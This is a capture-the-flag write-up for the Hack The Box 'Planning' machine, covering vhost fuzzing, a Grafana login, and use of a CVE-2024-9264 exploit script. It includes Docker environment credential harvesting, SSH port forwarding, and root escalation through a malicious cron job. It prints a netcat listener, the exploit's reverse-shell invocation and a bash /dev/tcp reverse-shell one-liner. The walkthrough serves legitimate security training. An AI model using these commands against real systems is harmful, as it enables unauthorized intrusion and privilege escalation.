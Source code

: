 # Planning

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | `N/A` | Nmap, ffuf, Initial Credentials | Performed an initial Nmap scan to discover open ports and services, identifying an `nginx` web server. Vhost fuzzing with `ffuf` revealed `grafana.planning.htb`, and the provided credentials (`admin:0D5oT70Fq13EvB5r`) were used to log in. |
| 2 | `root` | CVE-2024-9264, Docker Enumeration | Exploited a command injection vulnerability (CVE-2024-9264) in Grafana to gain an initial shell. Found plaintext SSH credentials (`enzo:RioXXXXXXXXXXXXX!`) in the Docker container's environment variables. |
| 3 | `enzo` | SSH Access | Used the discovered credentials to log in to the host machine via SSH as the `enzo` user, which provided access to the `user.txt` flag. |
| 4 | `enzo` | Port Forwarding, File Enumeration | Identified a local service on port 8000. Used SSH to port-forward this service to the local machine (`ssh -L 8000:127.0.0.1:8000 enzo@planning.htb`). Discovered a password (`P4ssXXXXXXXXXXXXX`) for the service in the `crontab.db` file. |
| 5 | `root` | Cron Job Manipulation | Logged into the cron management web interface as the `root` user with the discovered password. Added a new cron job with a reverse shell command. |
| 6 | `root` | Cron Job Execution | The cron job executed as the root user, providing a privileged shell to retrieve the `root.txt` flag. |

**Planning Machine** is an easy-level Linux machine from Season 7 of Hack The Box. The initial credentials provided for the web application are `admin / 0D5oT70Fq13EvB5r`. The machine is an Ubuntu system and features a Dockerized environment, which is a key part of the exploitation path.



#### 1\. Initial Reconnaissance & Enumeration

The first step is always to get a good lay of the land. We start with a comprehensive Nmap scan to identify open ports, running services, and the operating system.

```bash
nmap -A -v -p- -T4 -P0 -oX planning_tcp.scan 10.10.11.68 --webxml
```

The scan reveals two open ports:

  * **Port 22/tcp**: Running **OpenSSH 9.6p1 Ubuntu**
  * **Port 80/tcp**: Running an **nginx 1.24.0 (Ubuntu)** web server

A critical detail from the Nmap output is the `http-title` which states `Did not follow redirect to http://planning.htb/`. This tells us that the web server expects a specific hostname. We must add the entry `10.10.11.68 planning.htb` to our `/etc/hosts` file to correctly resolve the domain.

After accessing `http://planning.htb` in a browser, we see a simple web page with no immediately obvious vulnerabilities. We need to dig deeper.

#### 2\. Web Fuzzing and Vhost Discovery

Since the main page is a dead end, we move on to fuzzing to discover hidden content. We use `ffuf` with a common wordlist.

```bash
# Fuzzing for common directories and files
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u http://planning.htb/FUZZ

# Fuzzing for vhosts (Virtual Hosts)
ffuf -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -H "Host: FUZZ.planning.htb" -u http://planning.htb -fs 178
```

The vhost fuzzing proves fruitful, revealing a subdomain: **`grafana.planning.htb`**. We add this to our `/etc/hosts` file as well: `10.10.11.68 grafana.planning.htb`.

#### 3\. Gaining an Initial Foothold (User Flag)

Accessing `http://grafana.planning.htb` presents a Grafana login page. We use the credentials provided in the machine information: `admin` and `0D5oT70Fq13EvB5r`. The login is successful, but the Grafana instance appears empty with no dashboards or useful information.

We check the Grafana version, which is **v11.0.0**, and search for public exploits. We find a recent vulnerability, **CVE-2024-9264**, which is a high-severity arbitrary command execution flaw. A quick search for a Proof of Concept (PoC) reveals a Python script.

We download the PoC and use it to get a reverse shell.

```bash
# Start a netcat listener on our machine
nc -lvnp 4445

# Run the exploit script
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip <OUR_IP> --reverse-port 4445
```

This successfully grants us a shell, but we soon realize we are inside a **Docker container**. The `env` command is the key to escaping.

```bash
root@7ce659d667d7:~# env
...
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioXXXXXXXXXXXXX!
...
```

The environment variables expose a new set of credentials for a user named `enzo`. These credentials are `enzo` and `RioXXXXXXXXXXXXX!`.

We exit the container shell and try to SSH into the main host with these new credentials.

```bash
ssh enzo@planning.htb
```

The login is successful, and we are on the main host machine. This allows us to grab the `user.txt` flag.

#### 4\. Privilege Escalation to Root

With access as the `enzo` user, we start looking for a way to escalate privileges.

1.  **Port Forwarding**: Local enumeration reveals a service running on port 8000, but only on the loopback interface (`127.0.0.1`). We can't access it directly from our machine. The solution is to use SSH port forwarding to tunnel the traffic from our local port to the remote host's port.

    ```bash
    ssh enzo@planning.htb -L 8000:127.0.0.1:8000
    ```

    This command forwards our local port 8000 to the remote host's port 8000. We can now access the service by navigating to `http://localhost:8000` in our browser.

2.  **Web Service Discovery**: The service on port 8000 is a custom web application that manages `crontab` tasks. It requires a password to log in.

3.  **Password Discovery**: Back on the server, we find a file called `crontab.db`. This file contains the password for the web application's root user. Using this password with the username `root` on the login page gives us access to the `crontab` management panel.

4.  **Creating a Malicious Cron Job**: The panel allows us to create new cron jobs that are executed as the `root` user. We simply create a new task and add a reverse shell command.

    ```bash
    # Example command to add to the cron job
    bash -c 'bash -i >& /dev/tcp/<OUR_IP>/4446 0>&1'
    ```

    We set up a new `netcat` listener on our machine on port 4446 and save the cron job.

5.  **Root Shell**: The cron job runs shortly after being created, and we receive a shell as the `root` user. We can now read the `root.txt` flag and fully compromise the machine.

    ```bash
    root@planning:~# ls -la
    total 40
    ...
    -rw-r-----  1 root root   33 May 26 10:05 root.txt
    ...
    ```

**Pwned! Planning**